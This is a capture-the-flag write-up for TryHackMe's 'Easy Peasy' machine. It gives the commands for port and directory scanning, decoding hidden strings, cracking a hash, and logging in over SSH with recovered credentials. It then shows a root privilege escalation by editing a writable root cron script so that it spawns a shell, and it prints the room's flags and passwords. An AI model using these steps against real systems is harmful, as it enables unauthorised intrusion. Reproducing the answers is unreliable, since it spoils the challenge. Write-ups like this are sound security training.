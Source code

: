 # Lab Report - Easy Peasy


# Overview 
- **Category**: Web
- **Difficulty**: Easy
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/easypeasyctf 
- **Tags**: #enumeration #privesc 

## Challenge Description 
> **- Basic boot-to-root machine.** 

## Resolution Summary 
>**We enumerated the machine, discovered hidden web directories and decoded multiple encodings/steganography to retrieve flags and credentials, cracked a webpage hash to reveal a password, and used extracted credentials to connect over SSH. After auditing scheduled tasks we found a root-run cron script with insecure permissions, modified it to spawn a root shell, achieving full compromise.**

# Information Gathering 
### Active Reconnaissance : 
- **We started by performing an Nmap scan on the target, we also scanned for services' versions to look early on for low hanging fruits.**
```bash
nmap -sV 10.10.132.17 
```

- **Here are the results:** 
```bash
#Results
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
```

- **Just in case, we added the `-p-` flag to the Nmap scan, which proved to be useful:**
```bash
#Results 
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
```

## HTTP (80)
- **First we ran GoBuster to look for hidden directories, as there was not much on the web page at first sight (default Nginx welcome page).**
```bash
gobuster dir -u 10.10.132.17 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14
```

- **We uncovered the following directory:** 
```bash
#Results
/hidden               (Status: 301)
```

- **There we found an image. We uploaded it and ran exiftool to find any hints in the picture's metadata.**
```bash
exiftool ./lost-places-http-80-hidden.jpg 
```
	- Unfortunatly, we did not find anything.

- **We attempted again GoBuster, but this time on the hidden directory:** 
```bash
gobuster dir -u 10.10.132.17/hidden -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14
```

- **When inspecting the Source page, we found a hidden string that seemed to be encoded in base64:**
```html
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```

- **We decoded the hidden string using CyberChef and we got the first flag.**
	- **`flag{f1rs7_fl4g}`**

## HTTP (65524)
- **For the second HTTP server, we were also greeted with the default Apache the welcome page.**
- **However, upon inspecting the Source Page, we found a flag hiding in plain sight:** 
	- **`flag{9fdafbd64c47471a8f54cd3fc64cd312}`**

- **Similarly to what has been done before, we also started here with GoBuster:** 
```bash
gobuster dir -u http://10.10.132.17:65524 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14 -x php,txt
```
- **And we found a `robots.txt` file that exposed a user agent, we used it and ran GoBuster again:** 
```bash
gobuster dir -u http://10.10.132.17:65524 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14 -a "a18672860d0510e5ab6699730763b250"
```
	- We did not find anything.

- **However, the user-agent ended up being an md5 hash that we cracked online to get a flag:**
	- **`flag{1m_s3c0nd_fl4g}`**

- **Another available option was to curl the web page used that user-agent:** 
```bash
curl -A "a18672860d0510e5ab6699730763b250" http://10.10.132.17:65524
```

- **As a result, we discovered a strange string : `ObsJmP173N2X6dOrAgEAL0Vu`, which we attempted to decode.** 
- **It happened to be encoded in Base62, decoding it (with CyberChef) gave us a new directory : `/n0th1ng3ls3m4tt3r`, which is another flag:**
	- **`/n0th1ng3ls3m4tt3r`**

- **We came across a web page, we investigated the Source Page as usual and found what seemed to be a hash:** `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`, which we attempted to crack. We will use JTR:** 
```bash
john --wordlist=/home/kali/Downloads/easypeasy_1596838725703.txt hash.txt
```
	- This gave us a good idea on what format the hash could be (we must specify it next).

```bash
john --wordlist=/home/kali/Downloads/easypeasy_1596838725703.txt hash.txt -format=gost
```

- **We got a password:**
	- **`mypasswordforthatjob`**

- **We also extracted the binary code picture from the directory`/n0th1ng3ls3m4tt3r` and used `stegseek` to find data that was hidden inside the picture (using Steganography):**
```bash
stegseek binarycodepixabay.jpg /home/kali/Downloads/easypeasy_1596838725703.txt 
```

- **We found a username and a password in binary code, which we decoded to obtain the following credentials (to test on the SSH server):**
	- **`boring:iconvertedmypasswordtobinary`**

- **We connect over SSH by using**
```bash
ssh boring@10.10.132.17 -p6498
```

- **We found the `user.txt` flag, which needed to be decoded using ROT13 on CyberChef.**
	- **`flag{n0wits33msn0rm4l}`**
# Privilege Escalation 
- **Upon inspecting usual privesc attack vectors, we found a vulnerable cronjob that was running as root.** 
- **We found the binary attached to the cronjob:** 
```bash
find / -name ".mysecretcronjob.sh" 2>/dev/null
```

- **We edited the previous binary to spawn a shell as root once the cronjob is executed:** 
```bash
/bin/bash -i
```

- **And we make our way through root and read the root.txt flag.**
# Trophy 
**User.txt → `flag{n0wits33msn0rm4l}`**

**Root.txt → `flag{63a9f0ea7bb98050796b649e85481845}`**

# Remediation Summary
- **World-writable binaries in root owned cronjobs**: Ensure cron jobs and their scripts/binaries are owned by root and not writable by others (strict permissions).
- **Credentials hiding in images**:Remove credentials and sensitive data from web content and images; store secrets securely.

# Lessons Learned
- **Recursively using GoBuster on discovered hidden directories can be useful. 
- **Identify the hash algorithm/format** before cracking to save time.
- **Test different user-agents/headers**: servers may reveal different content based on them.
